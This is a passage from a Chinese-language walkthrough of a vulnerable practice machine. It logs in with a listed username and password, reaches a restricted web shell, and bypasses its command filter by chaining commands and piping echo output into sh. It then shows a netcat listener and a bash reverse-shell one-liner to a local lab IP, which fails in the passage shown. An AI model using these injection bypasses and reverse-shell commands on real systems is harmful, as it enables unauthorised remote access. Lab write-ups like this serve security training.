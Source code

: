 *   用户名：sarah，密码：bulldoglover
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg98phAibA8XIicgPPfUcPupIIYRMnfuWVqQ1nJrowwXrgoSg25SY6hUSlg/640?wx_fmt=png)

成功登录系统，但提示没有对应的权限。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Fzxxcel65fyjKBoObbthibIwzFpHc1VX2jb6bjCsJuIP2at3IdJxZFg/640?wx_fmt=png)

3. 命令注入和 shell 反弹
-----------------

第一步，访问 Webshell 的基本命令  
尝试访问 http://192.168.44.153/dev/shell，成功得到 Webshell，此时能够提交 6 个命令。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9qwU68ObOv970vNwOEv1WZcPWHx0iaWEpJcoYS9vlKzOBF2JvEAyx5AQ/640?wx_fmt=png)

这里给我们 6 个可用的命令，如下图所示，比如输入 “ifconfig” 查看网络。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9hGyP9WM9j7OlAQ0z0MXoJt0unRBIUXibZ5N7qVtxDml2OTn7GCFTpFA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9JsbSsSO2Zce07hs4pibO2Aogpkeg9ibdahS1tNg3pcCnwH6s7YDJekPw/640?wx_fmt=png)

但执行其他的命令会被拦截，因为该网站加了过滤，一些敏感命令没办法使用。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9HhKg5dN9xSGL8Vz5nJOv6sicJZJh3JfEXGef2sUwvhSVMpxkRNibnibnA/640?wx_fmt=png)

第二步，使用 Linux 的 & 和 | 进行命令组合绕过

*   ifconfig&&ls
    
*   ifconfig & whoami
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg98wrP5j3IcrZDiatwvIGcjUrxyEjicwUkVkJsTFbeK53kMJW9Oqopwm7g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9H5ibmW5iaiajvSlyrBh2Q81tLCP1mkxzD8gUbSQCwS96vIrib89tjsj6Gg/640?wx_fmt=png)

我们需要想办法绕过防火墙取得最终权限，经过一番琢磨，用 echo 命令打包可以实现绕过，例如：echo whoami|sh。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9CIjhoEgibphFOtss0oh5Ul8H4TFbz9khmPYF5t0hBR4IRXdLBUhgsUw/640?wx_fmt=png)

第三步，nc 监听端口并反弹 shell  
本地执行 nc -lvp 4444 监听本地端口 4444，然后在 Web-shell 上执行反弹脚本。

*   nc -lvp 4444
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9Rj4ojQ75F23uicPJcLybASBvGOHp0zDj3ibsjz4jLO5vicgdPibBCrOaQw/640?wx_fmt=png)

接着尝试 bash 反弹，在靶机打开的网页命令框中输入命令，但结果提示错误。

*   bash -i >& /dev/tcp/192.168.44.138/4444 0>&1
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9FSpZohzCOYiaAT690b5zEMDKSOicibGYbgheZp1CJRlSV8VhEbtjsXRQA/640?wx_fmt=png)

